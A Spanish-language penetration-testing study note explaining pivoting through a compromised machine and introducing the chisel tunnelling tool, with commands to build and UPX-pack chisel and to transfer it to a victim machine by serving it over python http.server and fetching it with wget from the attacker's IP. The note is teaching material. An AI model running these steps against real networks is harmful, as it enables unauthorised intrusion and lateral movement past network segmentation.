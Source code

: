 ----
- Tags: #avanzado #teoria #practica
----

# ¿ Que es el **pivoting** ?

El **pivoting** (También conocido como "*hopping*") es una técnica utilizada en pruebas de penetración y en el análisis de redes que implica el uso de una máquina comprometida para atacar otras máquinas o redes en el mismo entorno.

Por ejemplo, si un atacante ha comprometido una máquina en una red corporativa, puede utilizar técnicas de pivoting para utilizar esa máquina como punto de salto para atacar otras máquinas en la misma red que de otra manera no serían accesibles. Esto se logra a través de la creación de túneles de comunicación desde la máquina comprometida a otras máquinas en la red.

El pivoting puede ser utilizado para superar restricciones de seguridad que de otra manera impedirían a un atacante acceder a determinadas máquinas o redes. Por ejemplo, si una red corporativa utiliza segmentación de red para separara diferentes partes de la red, el pivoting puede ser utilizado para superar esta restricción y permitir que un atacante salte de una red a otra. 

----

# Conceptos 

Como sabemos el pivoting consiste en movernos desde una máquina a otra, pudiendo así llegar a tener conexión con máquinas las cuales previamente no contabamos con traza, esto se puede hacer de múltiples formas, pero una herramienta muy utilizada para el pivoting es [chisel]('https://github.com/jpillora/chisel/releases'), la cual hay que correr desde la máquina atacante como **server** y desde la/s máquina/s victima/s como **client**. 
###### Downloading Chisel (Linux)

```bash
git clone https://github.com/jpillora/chisel
cd chisel

go build -ldflags "-s -w" .
upx chisel
```
###### Downloading Chisel (Windows)

En este caso para descargar Chisel a una máquina Windows, en el apartado de *Releases* descargamos la versión que necesitemos, por ejemplo **chisel_1.7.7_windows_amd64.gz**.

Una vez que tengamos **chisel** en nuestra máquina, si deseamos hacer pivoting entre la *Máquina 1* con la *Máquina 2* para llegar a una *Máquina 3*, deberiamos trasladar el chisel a nuestra *Máquina 2*, para eso existen varías maneras (Ignorando el descargarlo desde google)

Con **python**: 
```bash
# Máquina 1 en donde este el {binary}: 
python3 -m http.server {port}
# Máquina 2: 
wget http://{ip}:{port}/{binary}
```
